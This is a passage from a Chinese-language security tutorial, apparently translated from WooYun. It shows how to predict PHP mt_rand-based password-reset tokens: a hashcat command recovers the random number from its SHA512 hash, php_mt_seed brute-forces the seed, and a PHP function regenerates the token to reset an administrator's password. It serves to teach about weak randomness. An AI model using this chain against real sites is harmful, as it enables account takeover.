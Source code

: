 这模仿我们从请求 A 能获取的那个 SHA512 后的 hash，并且接下来我们把它放在 hashcat 里跑一下。

```
./oclHashcat-lite64 -m1700 --pw-min=1 --pw-max=10 -1?d -o ./seed.txt <SHA512 Hash> ?d?d?d?d?d?d?d?d?d?d 
```

这是所有的参数的意思

```
-m1700: 定义 hash 的算法，1700 的意思就是 SHA512
-pw-min=1 定义 hash 加密之前的数字的最小的长度
-pw-max=10 定义 hash 加密之前数字的最大的长度
-1?d 定义我们自定义的字典是仅包含数字
-o ./seed.txt 输出的文件会被重写，别忘了不会有输出在屏幕上。
?d?d?d?d?d?d?d?d?d?d: 表示格式，最长 10 位，全是数字。 
```

如果一切顺利，你的 GPU 也没有爆炸，hashcat 几分钟内会找出随机数 hash 之前的原文是什么，是的，是几分钟，我先前花了一些时间去解释熵池是怎么工作的，然后你现在就可以在练习中明白，`mt_rand()`产生结果的可能性是如此的少，以至于 SHA512 加密后我的所有结果我们很短一段时间就计算结束了，使用 hash 去处理`mt_rand`的结果几乎没有什么用。

关于 hashcat 的一些其他用法可以参考之前 drops 的文章：[GPU 破解神器 Hashcat 使用简介](http://drops.wooyun.org/tools/655)

#### 第四步：通过我们获取的随机数去恢复随机数种子

我们上面说到了，SHA512 后的数字解出来只需要几分钟。这会告诉你接下来干什么，通过这个随机数，我们接下来要在跑一个脚本来暴力破解，这个工具叫做 php_mt_seed。这是一个小工具，它的作用是取出`mt_rand`的结果并且暴力破解定位哪些随机数种子会生成那个我们刚才获取的随机数，你可以在[`download.openwall.net/pub/projects/php_mt_seed/`](http://download.openwall.net/pub/projects/php_mt_seed/)下载对应的版本，如果出现问题的话，你可以选择一个老一点的版本（最新的版本在我在虚拟环境里测试的时候有些问题）。

```
./php_mt_seed <对应的随机数> 
```

这要花比算 SHA512 要长的时间。它烧的是 CPU，不过它会在 CPU 上尝试任何可能的随机数种子，这将会出现一个或多个随机数种子（也就是这些随机数种子都能产生这个数字）。

在上一步，我们暴力破解获取这个随机数的种子，因为 mt_rand 调用的种子数不多，这里有另外一个使用 python 编写的暴力破解 mt_rand 的工具：[`github.com/GeorgeArgyros/Snowflake`](https://github.com/GeorgeArgyros/Snowflake)

#### 第五步：生成可用的 token 来尝试重置管理员的密码

Assuming that the total calls to mt_rand() across both Request A and Request B were just two, you can now start predicting the token with the candidate seeds using:

假设在请求 A 和请求 B 中调用 mt_rand 的最大次数是两次，接下来你可以使用我们获取的 seed 们（有候选的）来预测下一个 token 是什么。

```
function predict($seed) {
    /**
     * Seed the PRNG
     */
    mt_srand($seed);
    /**
     * Skip the Request A call to the function
     */
    mt_rand();
    /**
     * Predict and return the Request B generated token
     */
    $token = hash('sha512', mt_rand());
    return $token;
}

```
